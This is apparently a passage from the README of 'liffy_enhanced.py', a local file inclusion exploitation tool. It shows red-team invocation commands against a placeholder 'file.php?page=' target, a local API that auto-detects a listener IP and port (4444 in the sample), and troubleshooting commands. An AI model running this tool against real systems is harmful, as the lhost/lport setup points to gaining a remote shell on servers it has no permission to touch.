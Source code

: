 ### Red Team Exercises

```bash
# Multi-threaded with auto-detection
python3 liffy_enhanced.py --url http://target/file.php?page= --auto \
  --auto-ip --auto-port \
  --threads 5
```

## 🔌 API Usage

### Auto-Detection via API

```bash
# Get network information
curl http://localhost:5000/api/network-info

# Auto-detect lhost and lport
curl -X POST http://localhost:5000/api/auto-detect \
  -H "Content-Type: application/json" \
  -d '{"target_url": "http://target/file.php?page="}'

# Get port information
curl http://localhost:5000/api/ports
```

### API Response Examples

```json
{
  "lhost": "192.168.1.100",
  "lport": 4444,
  "success": true
}
```

## 🚨 Troubleshooting

### Common Issues

#### No IP Detected
```bash
# Error: Could not auto-detect IP address
# Solution: Check network connectivity or specify manually
python3 liffy_enhanced.py --url http://target/file.php?page= --auto --lhost 192.168.1.100 --auto-port
```

#### No Port Available
```bash
# Error: No port available
# Solution: Check for port conflicts or specify manually
python3 liffy_enhanced.py --url http://target/file.php?page= --auto --auto-ip --lport 8080
```
